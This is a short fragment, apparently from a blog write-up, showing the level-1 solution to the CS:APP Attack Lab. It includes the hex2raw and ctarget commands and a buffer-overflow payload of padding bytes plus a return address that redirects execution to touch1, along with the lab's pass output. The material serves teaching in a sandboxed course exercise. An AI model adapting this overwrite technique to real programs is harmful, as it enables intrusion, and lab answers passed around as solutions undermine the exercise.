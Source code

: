 ```shell
./hex2raw < ctarget01.txt > ctarget01r.txt
./ctarget -i ctarget01r.txt -q
Cookie: 0x59b997fa
Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 C0 17 40 00 
```

[Fix CS:APP Attack Lab Segmentation Fault on Newest Ubuntu 22.04 | Rijuyuezhu's Blog](https://blog.rijuyuezhu.top/posts/db646f34/)
